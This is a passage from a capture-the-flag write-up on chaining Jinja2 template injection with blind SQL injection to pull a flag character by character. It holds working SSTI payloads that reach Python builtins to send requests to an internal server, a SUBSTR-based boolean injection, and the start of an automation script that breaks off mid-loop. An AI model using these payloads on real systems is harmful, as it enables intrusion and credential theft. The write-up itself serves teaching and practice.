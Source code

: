 Putting this into the `password` field gives:

```
ok thank you for your info i have now sold your password (False) for 2 donuts :)
```

so sending the requests is working!

Next, let's try some basic SQL injection:

```
{{request['application']['__globals__']['__builtins__']['__import__']('requests')['post']('http://172\x2e24\x2e0\x2e8:8080/runquery',json={'username':'','password':"' OR '1'='1"})['text']}}
```

The data server should receive a blank username and a password of `' OR '1'='1`, which will be evaluated to

```py
cur.execute("SELECT * FROM users WHERE username='' AND password='' OR '1'='1'");
```

and since `AND` is evaluated before `OR`, the result should be `True`. Let's try inputting this payload into the `password` field:

```
ok thank you for your info i have now sold your password (True) for 2 donuts :)
```

Looking good!

Finally, we can try actually figuring out the letters of the flag. In [Amy The Hedgehog](Amy%20The%20Hedgehog.md), we used the `LIKE` keyword to test if our guess was a prefix of the flag. Here, however, we found it more convenient to use the `SUBSTR` keyword to check individual characters of the flag, since `LIKE` is case-insensitive. (Also, some characters, like `_`, need to be escaped when using `LIKE`, which is annoying.)

For example, we know the first character of the flag is `L`. Let's check that using the `SUBSTR` function (note that SQL uses 1-indexed strings, rather than 0-indexed):

```
{{request['application']['__globals__']['__builtins__']['__import__']('requests')['post']('http://172\x2e24\x2e0\x2e8:8080/runquery',json={'username':'','password':"' OR SUBSTR(password,1,1)='L"})['text']}}
```

Output:

```
ok thank you for your info i have now sold your password (True) for 2 donuts :)
```

Now, we're ready to finish off the problem.

### The finale

We can write a Python script to automate the process of getting the flag:

```py
import requests

chars = "QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890{}.,_?!" # all the characters that could be in the flag

payload1 = '''{{request['application']['__globals__']['__builtins__']['__import__']('requests')['post']('http://172\\x2e24\\x2e0\\x2e8:8080/runquery',json={'username':'','password':"' OR SUBSTR(password,'''
payload2 = ",1)='"
payload3 = '''"})['text']}}''' # three sections of our payload

i = 1 # the index we're starting from

while True:
    foundMatch = False # if we've found a match for this character
```